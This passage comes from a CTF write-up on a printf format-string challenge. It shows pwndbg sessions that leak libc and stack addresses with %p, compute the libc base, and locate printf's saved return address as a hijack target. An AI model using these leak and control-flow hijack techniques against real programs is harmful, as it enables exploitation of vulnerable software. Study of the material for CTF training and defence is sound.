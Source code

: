 ## leak for libc
```asm wrap=false showLineNumbers=false
pwndbg> r
Starting program: /home/hyder/CTF_FILES/lit_ctf/pwn/distilled_printf_maon/main_patched 
%p %p
0x7ffff7bc3770 0x7fffffffd430

pwndbg> vmmap 0x7ffff7bc3770
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File (set vmmap-prefer-relpaths on)
    0x7ffff7bc1000     0x7ffff7bc3000 rw-p     2000 1c1000 libc-2.24.so
►   0x7ffff7bc3000     0x7ffff7bc7000 rw-p     4000      0 [anon_7ffff7bc3] +0x770
    0x7ffff7c00000     0x7ffff7c25000 r-xp    25000      0 ld-2.24.so


pwndbg> p/x 0x7ffff7bc3770-0x7ffff7800000
$2 = 0x3c3770
pwndbg> vmmap 0x7ffff7bc3770-0x3c3770
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File (set vmmap-prefer-relpaths on)
    0x55555555b000     0x55555557c000 rw-p    21000      0 [heap]
►   0x7ffff7800000     0x7ffff79bd000 r-xp   1bd000      0 libc-2.24.so +0x0
    0x7ffff79bd000     0x7ffff7bbd000 ---p   200000 1bd000 libc-2.24.so
pwndbg> 

```
From the first leak , we get some anonymous memory address which is 0x0x3c3770 away from libc base. so,
`libc_base = leak -  0x0x3c3770`
From the second leak we get some stack address leak, which we may use it later.

Eventhough, we get the base address the program does not return but instead it exits directly, eventhough there is bufferoverflow due to exit it , it wont work here.
Then again after search through the memory with gdb and with the help of GPT , I found that when printf is called it returns to the main function again , If there we can overwrite the return address with our arbitary memory , we can control that return address and control the program execution.
```asm wrap=false showLineNumbers=false
Breakpoint 2, 0x00007ffff78565b0 in __printf (format=<optimized out>) at printf.c:37
37	in printf.c
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
──────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────────────────────────────
*RAX  3
 RBX  0
*RCX  0x7ffff78f7cf0 (__write_nocancel+7) ◂— cmp rax, -0xfff
*RDX  0x7ffff7bc3760 (_IO_stdfile_1_lock) ◂— 0
*RDI  0x55555555b420 ◂— 0xa6473 /* 'sd\n' */
*RSI  0x55555555b420 ◂— 0xa6473 /* 'sd\n' */
*R8   0x7ffff7ff4700 ◂— 0x7ffff7ff4700
*R9   3
*R10  0x55555555b420 ◂— 0xa6473 /* 'sd\n' */
 R11  0x246
 R12  0x5555555550a0 (_start) ◂— endbr64 
 R13  0x7fffffffd720 ◂— 1
 R14  0
 R15  0
 RBP  0x7fffffffd640 —▸ 0x555555555200 (__libc_csu_init) ◂— endbr64 
 RSP  0x7fffffffd418 —▸ 0x5555555551e2 (main+89) ◂— add dword ptr [rbp - 0x214], 1
*RIP  0x7ffff78565b0 (printf+160) ◂— ret 
───────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────────────────────────────────────────────────────────
 ► 0x7ffff78565b0 <printf+160>    ret                                <main+89>
    ↓
```